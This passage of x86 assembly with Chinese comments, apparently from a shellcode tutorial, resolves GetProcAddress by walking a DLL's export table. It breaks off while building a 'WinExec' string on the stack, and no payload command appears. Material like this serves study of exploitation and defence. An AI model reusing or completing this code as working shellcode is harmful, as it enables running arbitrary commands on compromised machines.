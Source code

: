 MOV ECX,\[EBP+EAX+24\] ;取导出表中导出函数名字的数目

MOV EBX,\[EBP+EAX+32\] ;取导出表中名字表的地址

ADD EBX,EBP

PUSH WORD PTR 0X00 ;构造GetProcAddress字符串

PUSH DWORD PTR 0X73736572

PUSH DWORD PTR 0X64644163

PUSH DWORD PTR 0X6F725074

PUSH WORD PTR 0X6547

MOV EDX,ESP

PUSH ECX

F1:

MOV EDI,EDX

POP ECX

DEC ECX

TEST ECX,ECX

JZ EXIT

MOV ESI,\[EBX+ECX\*4\]

ADD ESI,EBP

PUSH ECX

MOV ECX,15

REPZ CMPSB

TEST ECX,ECX

JNZ F1

POP ECX

MOV ESI,\[EBP+EAX+36\] ;取得导出表中序号表的地址

ADD ESI,EBP

MOVZX ESI,WORD PTR\[ESI+ECX\*2\] ;取得进入函数地址表的序号

MOV EDI,\[EBP+EAX+28\] ;取得函数地址表的地址

ADD EDI,EBP

MOV EDI,\[EDI+ESI\*4\] ;取得GetProcAddress函数的地址

ADD EDI,EBP

PUSH WORD PTR 0X00

PUSH DWORD PTR 0X636578 ;构造WinExec字符串
